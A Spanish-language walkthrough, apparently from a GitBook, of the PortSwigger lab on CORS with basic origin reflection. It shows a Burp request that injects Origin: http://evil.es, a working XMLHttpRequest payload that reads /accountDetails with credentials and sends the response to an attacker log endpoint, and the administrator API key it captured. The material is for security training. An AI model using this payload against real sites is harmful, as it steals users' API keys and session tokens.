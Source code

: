 ```yaml
---
icon: arrow-progress
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PortSwigger - CORS vulnerability with basic origin reflection

Primero veremos una pagina web en la que tendremos que loguearnos con las credenciales que nos proporcionan:

```
User: wiener
Pass: peter
```

Una vez dentro veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos al `HTTP History` de `BurpSuite` veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En esta parte de aqui, si nos vamos a la respuesta del servidor, veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que está esta linea:

```
Access-Control-Allow-Credentials: true
```

Por lo que ya nos esta dando una pista de que se puede inyectar un `Origin:` en la cabecera de la peticion, vamos a probarlo haciendo lo siguiente, pero antes lo enviaremos al `Repeater` para hacer nuestras pruebas con `Ctrl+R`:

```
GET /accountDetails HTTP/2
Host: 0ac200ae03914ae783adeb10005b0068.web-security-academy.net
Cookie: session=cqk6PNNi2yuPlScrp8epStylUJ6NSM5Q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Origin: http://evil.es

```

Tiene que quedar algo asi como se muestra en lo anterior, ahora si lo enviamos y vemos la respuesta del servidor, veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, por que estamos viendo lo siguiente:

```
Access-Control-Allow-Origin: http://evil.es
Access-Control-Allow-Credentials: true
```

Por lo que esta confiando en el link que le estamos inyectando en el `Origin`, ahora vamos a darle al boton llamado `Go to exploit server` para emular nuestro servidor atacante y realizar el `exploit` contra el usuario victima que este logueado, veremos este apartado:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

En la parte de `Body` tendremos que meter el `payload` para poder capturar la informacion del usuario y obtener el `TOKEN` del mismo, vamos a poner lo siguiente:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','<PETICION_VULNERABLE>',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora vamos a obtener la `peticion` vulnerable donde llevamos al `repeater` antes con `BurpSuite` copiandola, para asi insertarla ahi en ese `payload` y poder capturar el `TOKEN` del usuario que este logueado.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Y veremos algo asi:

```
URL = https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails
```

Esto lo meteremos en nuestro `payload` y tendremos que tener algo asi:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora para probar el `exploit` le daremos a `Store` y despues `Deliver exploit to victim` y nos vamos a los `logs` dandole a `Access log`, con esto veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Veremos que hay un `/log?key=` que tiene el nombre de `administrador` por lo que vemos ha funcionado, vamos a obtener el valor entero que sera este:

```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk%22,%20%20%22sessions%22:%20[%20%20%20%20%22jyoMkcVXMOZ22RmElbHuQBqps91se3Rf%22%20%20]}
```

Ahora lo decodificaremos y veremos lo siguiente:

```
{  "username": "administrator",  "email": "",  "apikey": "cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk",  "sessions": [    "jyoMkcVXMOZ22RmElbHuQBqps91se3Rf"  ]}
```

Vemos que el `APIKey` del usuario `administrador` es:

```
cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk
```

Ahora para validarlo le daremos a `Submit Solution` e introducimos ese `APIKey` con esto ya habremos terminado el `LAB`.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
